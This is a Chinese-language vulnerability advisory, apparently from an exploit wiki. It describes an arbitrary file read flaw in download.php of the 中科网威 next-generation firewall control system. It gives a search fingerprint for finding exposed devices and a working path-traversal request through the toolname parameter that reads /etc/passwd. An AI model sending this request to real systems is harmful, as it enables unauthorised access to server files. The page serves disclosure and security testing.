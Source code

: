 # 中科网威 下一代防火墙控制系统 download.php 任意文件读取漏洞

## 漏洞描述

中科网威 下一代防火墙控制系统 download.php 任意文件读取漏洞, 攻击者通过漏洞可以读取服务器上的文件

## 漏洞影响

<a-checkbox checked>中科网威 下一代防火墙控制系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="Get_Verify_Info(hex_md5(user_string)."</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](/assets/PeiQi-Wiki/img/image-20210531184103009.png)



漏洞存在于 download.php

![img](/assets/PeiQi-Wiki/img/image-20210602161941678.png)



任意点击后抓包，更改 `toolname` 参数

```plain
/download.php?&class=vpn&toolname=../../../../../../../../etc/passwd
```



![img](/assets/PeiQi-Wiki/img/image-20210602162110747.png)



## 

